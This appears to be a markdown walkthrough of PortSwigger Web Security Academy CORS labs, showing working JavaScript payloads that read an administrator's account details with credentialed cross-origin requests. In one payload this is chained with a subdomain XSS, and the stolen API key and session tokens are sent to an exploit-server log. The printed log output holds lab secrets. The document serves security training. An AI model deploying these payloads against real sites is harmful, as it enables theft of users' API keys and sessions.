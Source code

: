 # Cross-origin resource sharing (CORS)

Get details at [here](https://portswigger.net/web-security/cors)

---

[Lab 1](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

Description of this lab: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key and use credentials: wiener:peter

Log in with above credentials, then we can find in `/accountDetails` having response contains the Access-Control-Allow-Credentials header, we need to exploit this.

Use this script in exploit server body, click store and view exploit to check everything is ok, then deliver exploit to victim and go to access log to find response

```js
    <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ad300b20384a448c0c2754200cb00ab.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
    </script>
```

We can find a request like this `GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22ppangVtseLowbvHNDQTQGwasciL3jlOz%22,%20%20%22sessions%22:%20[%20%20%20%20%22qJ0YDt5Fc25rXs625eXPcWIU5RTujr4r%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.71 Safari/537.36"` and answer is ppangVtseLowbvHNDQTQGwasciL3jlOz (after apikey). Go back home and submit, then solved the lab.

[Lab 2](#)

[Lab 3](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

Description of this lab: it trusts all subdomains regardless of the protocol, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key

Log in with credentials lab 1, 

At any post having check stock button, when we click on this, website will pop up new screen with URL like this `http://stock.0a5d009103eed0bfc040312500d40071.web-security-academy.net/?productId=1&storeId=1`. Resending this with burp repeater, and it has Access-Control-Allow-Credentials header

Use this script in exploit server:

```js
    <script>
        document.location="http://stock.0a5d009103eed0bfc040312500d40071.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a5d009103eed0bfc040312500d40071.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0aa400b1033fd0f0c0c83346012000f0.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>
```

Do the same as lab 1,and we get log like this `"GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%222xBdobabBVdlG3LL1JSSZBDYGYpzettT%22,%20%20%22sessions%22:%20[%20%20%20%20%22F6zL5lbcOG04rrzPnWPzXkB7bp2omm2O%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.71 Safari/537.36"`. Submit secret and solved the lab.